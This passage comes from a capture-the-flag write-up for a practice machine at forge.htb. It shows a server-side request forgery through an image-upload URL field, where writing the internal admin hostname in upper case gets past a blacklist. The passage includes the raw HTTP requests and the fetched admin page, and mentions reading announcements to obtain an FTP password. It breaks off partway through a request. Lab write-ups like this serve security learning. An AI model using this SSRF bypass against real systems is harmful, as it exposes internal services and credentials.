 Attempting to access http://admin.forge.htb from http://forge.htb/upload returns an error `URL contains a blacklisted address!`
However, changing the url to upper case allows the attacker to view the admin page.
```
POST /upload HTTP/1.1
Host: forge.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Origin: http://forge.htb
DNT: 1
Connection: close
Referer: http://forge.htb/upload
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

url=http%3A%2F%2FADMIN.FORGE.HTB&remote=1
```

Returns an expected url `http://forge.htb/uploads/8gfhOTWUTgWmGrv9KhNN`. Curling this url contains the html for http://ADMIN.FORGE.HTB
```
$ curl http://forge.htb/uploads/8gfhOTWUTgWmGrv9KhNN

<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
```

## Exploitation and user.txt
The admin page has a `/announcements` channel and `/upload` page. Repeating the same process to read the `/announcements` reveals an ftp password.
```
POST /upload HTTP/1.1
Host: forge.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Origin: http://forge.htb
DNT: 1
Connection: close
```